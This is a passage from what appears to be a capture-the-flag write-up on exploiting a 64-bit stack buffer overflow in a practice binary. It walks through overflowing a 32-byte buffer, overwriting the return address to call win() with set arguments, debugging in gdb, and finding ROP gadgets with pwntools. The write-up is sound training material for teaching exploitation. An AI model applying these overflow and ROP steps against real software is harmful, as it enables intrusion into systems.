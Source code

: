 ```console
[*] The buffer is [32] bytes long and 'read(0, buffer, 0x69)' reads up to 0x69 bytes.
[*] Overflow the buffer and SFP with junk and then 'Return Address' with the address of 'win()'.
[*] This time, you need to call 'win(0xdeadbeef, 0xc0deb4be)'.
```

* Fill the `local_28[32]` buffer with 32 bytes of junk.
* Overwrite the `stack frame pointer` with 8 bytes of junk.
* Set the arguments for `win(0xdeadbeef, 0xc0deb4be)`.
* Overwrite the `return address` with the address of `win(0xdeadbeef, 0xc0deb4be)`, 8 bytes aligned and correct endianness.

How are we going to set the arguments of `win`? If it was a x86 binary, it would just go on the stack but, now we are working with a x86-64 binary. We are going to find where the arguments are stored in a hands-on way.

### Debugging 🐞

We are going to use `pwntools` in order to debug our binary. Inside our script, we write this:

```python
gdb.attach(r, '''b win\nc''')
```

This way, we set a `breakpoint` at `win` and we continue our program until it hits the breakpoint. 

Our payload so far, will be something like:

```python
payload = "A"*40 + win
```

When we run the script, the program halts here:

```gdb
→   0x4008f1 <win+4>          sub    rsp, 0x50
    0x4008f5 <win+8>          mov    DWORD PTR [rbp-0x44], edi
    0x4008f8 <win+11>         mov    DWORD PTR [rbp-0x48], esi
    0x4008fb <win+14>         cmp    DWORD PTR [rbp-0x44], 0xdeadbeef
    0x400902 <win+21>         jne    0x400910 <win+35>
    0x400904 <win+23>         cmp    DWORD PTR [rbp-0x48], 0xc0deb4be
```

### Registers 💺

At <win+8>, we see that `edi` is loaded at `rbp-0x44` and `esi` at `rbp-0x48`.
Our 2 desired values, are stored at these addresses respectively. From this, we can understand that:
* The first argument of a function is stored at `edi` (`rdi` because we are on x86-64) and `esi` (`rsi` because we are on x86-64). So, we need to somehow pop these registers in order to fill them with the data we want. We are going to use [pwntools rop](https://docs.pwntools.com/en/stable/rop/rop.html) module.

We are going to find our gadgets like this:

```python
fname = "./challenge2" 
e     = ELF(fname)
rop   = ROP(e)
print("\nrdi @ 0x{:x}\nrsi @ 0x{:x}". format(rop.find_gadget(["pop rdi"])[0], rop.find_gadget(["pop rsi"])[0]))
```
